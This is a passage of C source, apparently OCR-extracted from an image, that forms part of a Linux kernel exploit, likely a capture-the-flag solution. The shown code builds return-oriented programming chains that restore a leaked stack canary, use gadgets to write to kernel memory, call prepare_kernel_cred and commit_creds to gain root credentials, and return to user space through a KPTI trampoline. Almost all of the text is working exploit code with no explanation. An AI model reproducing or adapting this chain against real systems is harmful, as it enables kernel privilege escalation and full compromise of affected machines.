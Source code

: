 ```c
    int i = 0x10;

    rop[i++] = canary;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = 0;

    rop[i++] = pop_rax_ret;
    rop[i++] = to_leak - 0x10;
    rop[i++] = write_rax_rax_pop_rbp_ret ;
    rop[i++] = user_sp;

    rop[i++] = kpti_trampoline;
    rop[i++] = next; // rdi
    rop[i++] = 0;
    rop[i++] = (size_t )control;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd , rop , 0x80 + 0x100 );
    error("Return ERROR");
}

void to_rop( size_t address ,int next ){

    size_t rop[0x600] = {0};
    int i = 0x10;

    rop[i++] = canary;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = 0;

    if (address){
        rop[i++] = pop_rdi_rbp_ret;
        rop[i++] = address;
        rop[i++] = user_sp;
        rop[i++] = commit_creds;
    }else{
        rop[i++] = pop_rdi_rbp_ret;
        rop[i++] = 0;
        rop[i++] = user_sp;
        rop[i++] = prepare_kernel_cred;
    }

    rop[i++] = kpti_trampoline;
    rop[i++] = next; // rdi
    rop[i++] = 0;
    rop[i++] = (size_t )control;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd , rop , 0x80 + 0x100 );
    error("Return ERROR");
}


void control(int flag){
    int offset;
```